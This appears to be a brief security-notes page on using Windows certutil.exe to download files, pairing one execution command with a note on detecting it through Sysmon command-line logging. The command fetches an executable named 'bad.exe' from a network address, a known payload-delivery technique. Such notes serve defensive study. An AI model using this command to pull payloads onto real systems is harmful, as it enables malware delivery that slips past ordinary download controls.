


# Downloading Files with Certutil

## Execution

```csharp
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```



## Observations

Sysmon commandling logging is a good place to start for monitoring suspicious `certutil.exe` behaviour:



